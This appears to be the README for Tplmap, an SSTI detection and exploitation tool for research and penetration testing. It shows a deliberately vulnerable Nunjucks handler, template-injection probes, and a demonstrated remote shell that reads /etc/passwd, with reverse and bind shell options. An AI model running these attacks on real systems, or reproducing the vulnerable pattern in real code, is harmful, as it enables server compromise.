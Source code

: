Tplmap
======

Tplmap (short for _Template Mapper_) automates the detection and exploitation of Server-Side Template Injection (SSTI) vulnerabilities to break-out the sandbox and achieve remote command execution on the remote operating system. 

The tool can be used as a testbed to conduct researches on the SSTI vulnerability class and as offensive security tool in penetration test engagements.

The sandbox break-out techniques came from public [researches][4] as James Kett's [Server-Side Template Injection: RCE For The Modern Web App][1] and other original piece of [works][2] to [extend][3] this tool capabilities.

It achieves full compromise in rendered context, several code context and blind injection scenarios. It also exploits _eval()_-like injections in several languages and generic unsandboxed template engines.

Server-Side Template Injection
------------------------------

Assume that you are auditing a web application that uses user-provided values as template to generate a dynamic web page. This example in JavaScript uses [Nunjucks][5] template engine in an unsafe way.

```javascript
var connect = require('connect');
var http = require('http');
var url = require('url');
var nunjucks = require('nunjucks');

var app = connect();
app.use('/page', function(req, res){
  if(req.url) {
    var url_parts = url.parse(req.url, true);
    var name = url_parts.query.name;
    
    // SSTI VULNERABILITY
    // The user controllable `name` GET parameter 
    // is concatenated to the template string instead 
    // of being passed as `context` argument. 
    rendered = nunjucks.renderString(
      str = 'Hello ' + name + '!'
    );
    
    res.end(rendered);
  }
});
```

The page reflects the `name` parameter value, and discloses its SSTI nature when returns basic operation results computed at runtime.

```
$ curl -g 'http://www.target.com/page?name=John'
Hello John!
$ curl -g 'http://www.target.com/page?name={{7*7}}'
Hello 49!
```

Exploitation
------------

Tplmap supports the detection and exploitation of SSTI to get access to the underlying file system and operating system.

```
$ ./tplmap.py -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.2
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Mako plugin is testing rendering with tag '${*}'
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
...
[+] Nunjucks plugin is testing rendering with tag '{{*}}'
[+] Nunjucks plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  GET parameter: name
  Engine: Nunjucks
  Injection: {{*}}
  Context: text
  OS: linux
  Technique: render
  Capabilities:

   Shell command execution: yes 
   Bind and reverse shell: yes 
   File write: yes 
   File read: yes 
   Code evaluation: yes, javascript code

[+] Rerun tplmap providing one of the following options:

   --os-shell                 Run shell on the target
   --os-cmd                   Execute shell commands
   --bind-shell PORT          Connect to a shell bind to a target port
   --reverse-shell HOST PORT  Send a shell back to the attacker's port
   --upload LOCAL REMOTE      Upload files to the server
   --download REMOTE LOCAL    Download remote files
```

Use `--os-shell` option to compromise the target in a fully automated way.

```
$ ./tplmap.py --os-shell -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.2
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Run commands on the operating system.

linux $ whoami
www
linux $ head /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
```

Supported template engines
--------------------------

Tplmap can exploit SSTI vulnerabilities in over 15 template engines, unsandboxed engines and generic _eval()_-like injections. Blind injections and injections in code contexts are supported.

| Template engine    | Remote Command Execution |  Blind | Code evaluation | File read | File write |
|----------------------|-------|-------------------|-----------------|-----------|------------|
| Mako                 | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Jinja2               | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Python (generic)     | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Nunjucks             | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Jade                 | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| doT                  | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Marko                | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| JavaScript (generic) | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Dust (<= dustjs-helpers@1.5.0) | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Smarty (unsecured)   | ✓ |  ✓                | PHP             |  ✓        |  ✓         |
| PHP (generic)        | ✓ |  ✓                | PHP             |  ✓        |  ✓         |
| Freemarker           | ✓ |  ✓                | ×               |  ✓        |  ✓         |
| Velocity             | ✓ |  ✓                | ×               |  ✓        |  ✓         |
| Twig                 | × | ×                 | ×               | ×         | ×          |
| Smarty (secured)     | × | ×                 | ×               | ×         | ×          |
| Dust (> dustjs-helpers@1.5.0)  | × | ×                 | ×               | ×         | ×          |

[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[2]: https://github.com/epinna/tplmap/issues/9
[3]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[4]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
[5]: https://mozilla.github.io/nunjucks/
